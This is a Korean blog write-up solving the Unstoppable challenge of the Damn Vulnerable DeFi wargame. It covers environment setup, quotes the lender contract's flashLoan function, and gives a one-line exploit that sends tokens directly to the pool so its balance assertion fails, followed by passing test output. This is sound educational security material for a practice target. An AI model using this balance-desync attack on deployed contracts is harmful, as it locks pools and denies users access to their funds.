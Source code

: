 ```yaml
---
title: "DamnVulnerableDefi Unstoppable 풀이"
author: IceBear
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - Unstoppable
# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정
---
```


[Damn Vulnerable DeFi]는 DeFi Smart Contract를 대상으로 하는 Wargame 사이트이다.
![Damn Vulnerable DeFi](/assets/images_post/2022-01-25-DamnVulnerableDefi-Unstoppable/damnvulnerabledefi.png)
해당 문제들을 풀어보면서 DeFi Smart Contract에서 발생하는 취약점 유형을 학습할 수 있다.
먼저 Wargame 문제 풀이를 위한 환경설정을 정리하고, 1번 챌린지인 Unstoppable을 풀어보도록 한다. 

## 환경설정

먼저 문제 Repository를 Clone 한다.
~~~
git clone https://github.com/OpenZeppelin/damn-vulnerable-defi.git
~~~

그리고 자바스크립트 패키지 매니저인 yarn을 설치한다.(여기서는 Mac 기준)
~~~
brew install yarn
~~~

그 뒤 yarn을 통해 필요한 패키지들을 설치한다.
~~~
yarn install
~~~

설치가 정상적으로 잘 되면 damn-vulnerable-defi 폴더로 이동하여 npm 명령을 통해 사용가능한 챌린지들을 확인할 수 있다.
~~~
➜  damn-vulnerable-defi ✗ npm run
Lifecycle scripts included in undefined:
  test
    npm run compile && npx mocha --timeout 5000 --exit --recursive test

available via `npm run-script`:
  unstoppable
    npm run compile && npx mocha --timeout 5000 --exit test/unstoppable/unstoppable.challenge.js
  truster
    npm run compile && npx mocha --timeout 5000 --exit test/truster/truster.challenge.js
  naive-receiver
    npm run compile && npx mocha --timeout 5000 --exit test/naive-receiver/naive-receiver.challenge.js
  side-entrance
    npm run compile && npx mocha --timeout 5000 --exit test/side-entrance/side-entrance.challenge.js
  the-rewarder
    npm run compile && npx mocha --timeout 5000 --exit test/the-rewarder/the-rewarder.challenge.js
  selfie
    npm run compile && npx mocha --timeout 5000 --exit test/selfie/selfie.challenge.js
  compromised
    npm run compile && npx mocha --timeout 5000 --exit test/compromised/compromised.challenge.js
  puppet
    npm run compile && npx mocha --timeout 5000 --exit test/puppet/puppet.challenge.js
  compile
    npx buidler compile
~~~

Wargame은 [OpenZeppelin Test Helper]를 통해 로컬에서 테스트할 수 있다.
각 문제에 대한 Exploit 코드는 test 폴더 밑 해당 문제 폴더에 존재하는 challenge.js 파일내에 추가하면 된다.
Unstoppable 문제의 js 파일을 보면 다음과 같이 친절하게 Exploit을 작성할 부분을 정의해두었다.
~~~
...
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
});
...
~~~
그리고 npm 명령을 통해 Exploit을 실행할 수 있다.
~~~
npm run unstoppable
~~~

## Unstoppable 풀이

Contract 파일인 UnstoppableLender.sol 내 flashloan 함수는 다음과 같다.
~~~
function flashLoan(uint256 borrowAmount) external nonReentrant {
  require(borrowAmount > 0, "Must borrow at least one token");

  uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
  require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

  // Ensured by the protocol via the `depositTokens` function
  assert(poolBalance == balanceBefore);
        
  damnValuableToken.transfer(msg.sender, borrowAmount);
        
  IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
  uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
  require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
~~~

코드 중간에 assert로 poolBalance와 balanceBefore가 같음을 확인한다.
balanceBefore는 바로 위에서 해당 주소의 balance를 가지고 옴을 알 수 있다.
그에 반해 poolBalance는 전역 변수로 depositTokens 함수를 통해서만 추가될 수 있다.
~~~
...
uint256 public poolBalance;
...
function depositTokens(uint256 amount) external nonReentrant {
  require(amount > 0, "Must deposit at least one token");
  // Transfer token from sender. Sender must have first approved them.
  damnValuableToken.transferFrom(msg.sender, address(this), amount);
  poolBalance = poolBalance + amount;
}
...
~~~

하지만 ERC20 표준에 따라 transfer 함수를 통해 해당 contract에 token을 전송할 수 있다.
그럴 경우 balanceBefore 값이 증가하게 되고, 따라서 poolBalance 값과 balanceBefore 값이 불일치하게 된다.
이를 위한 js 파일내 exploit 코드는 다음과 같다.
~~~
...
it('Exploit', async function () {
    /** YOUR EXPLOIT GOES HERE */
    await this.token.transfer(this.pool.address, ether('1'), {from: attacker });
    });
...
~~~

이를 npm으로 실행하면 다음 결과를 얻는다.
~~~
➜  damn-vulnerable-defi ✗ npm run unstoppable

> unstoppable
> npm run compile && npx mocha --timeout 5000 --exit test/unstoppable/unstoppable.challenge.js


> compile
> npx buidler compile

All contracts have already been compiled, skipping compilation.


  [Challenge] Unstoppable
    ✓ Exploit (50ms)


  1 passing (757ms)
~~~

## 마치며

DeFi에서 사용하는 Pool을 관리하는데 있어 Balance가 다양한 방식으로 조절될 수 있다.
특히 여러 체인을 연계하는 서비스의 경우 자체적으로 각 Token에 대한 Balance를 가지고 관리하는 경우 이러한 문제가 발생할 수 있다.


[Damn Vulnerable DeFi]: https://www.damnvulnerabledefi.xyz 
[OpenZeppelin Test Helper]: https://docs.openzeppelin.com/test-helpers/0.5/
